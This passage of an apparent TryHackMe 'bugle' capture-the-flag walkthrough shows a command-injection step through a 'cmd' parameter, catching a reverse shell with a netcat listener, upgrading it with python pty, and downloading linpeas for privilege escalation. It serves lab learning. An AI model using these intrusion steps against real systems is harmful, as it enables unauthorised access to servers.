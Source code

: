 <br />
Paste the exploit one-line into the cmd paramter end execute.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/bugle/exploit.png" title="Exploit" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Check the listener and catch the shell.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/thm/bugle]
└─$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.4.119.29] from (UNKNOWN) [10.10.167.104] 60952
id
uid=48(apache) gid=48(apache) groups=48(apache)
python -c 'import pty; pty.spawn("/bin/bash");'
bash-4.2$
```
{% endraw %}

<br />
Download linpeas.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/thm/bugle]
└─$ wget https://github.com/peass-ng/PEASS-ng/releases/download/20250216-fd69e735/linpeas.sh
--2025-02-19 01:16:25--  https://github.com/peass-ng/PEASS-ng/releases/download/20250216-fd69e735/linpeas.sh
Resolving github.com (github.com)... 4.237.22.38
Connecting to github.com (github.com)|4.237.22.38|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/fb023db6-ffeb-4579-9efa-20dcaf35eac7?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250218%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250218T141629Z&X-Amz-Expires=300&X-Amz-Signature=0efe0201dbac8598e70b197f3a0c2ee23486d8d75c44686a37f56b03fc4236e6&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3Dlinpeas.sh&response-content-type=application%2Foctet-stream [following]
--2025-02-19 01:16:25--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/fb023db6-ffeb-4579-9efa-20dcaf35eac7?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250218%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250218T141629Z&X-Amz-Expires=300&X-Amz-Signature=0efe0201dbac8598e70b197f3a0c2ee23486d8d75c44686a37f56b03fc4236e6&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3Dlinpeas.sh&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.111.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 840082 (820K) [application/octet-stream]
Saving to: ‘linpeas.sh’

linpeas.sh                                                 100%[========================================================================================================================================>] 820.39K  3.05MB/s    in 0.3s    

2025-02-19 01:16:26 (3.05 MB/s) - ‘linpeas.sh’ saved [840082/840082]

                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/thm/bugle]
```
